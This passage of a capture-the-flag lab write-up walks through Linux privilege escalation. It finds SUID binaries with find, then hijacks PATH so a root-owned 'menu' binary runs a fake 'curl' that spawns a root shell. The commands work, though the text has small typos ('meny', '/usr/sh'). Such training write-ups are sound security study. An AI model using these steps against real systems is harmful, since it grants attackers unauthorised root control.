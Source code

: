 To search the a system for these type of files run the following: `find / -perm -u=s -type f 2>/dev/null`

<aside>
❓

What file looks particularly out of the ordinary? /usr/bin/menu

</aside>

> The `/usr/bin/menu` sticks out when comparing to my own machines result which doesn’t present it in the same find results.
> 

![image.png](image%209.png)

We can abuse this because we can run it as the root user.

<aside>
❓

Run the binary, how many options appear?

</aside>

Strings is a command on Linux that looks for human readable strings on a binary.

```powershell
curl -I localhost
uname -r
ifconfig
```

This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname).

As this file runs as the root users privileges, we can manipulate our path gain a root shell.

```powershell
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/meny
```

![image.png](image%2010.png)

We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!

<aside>
❓

What is the root flag (/root/root.txt)? You can find it!

</aside>

---

<style>
.center img {
  display: block;
  margin-left: auto;
  margin-right: auto;
}
.wrap pre {
  white-space: pre-wrap;
}
</style>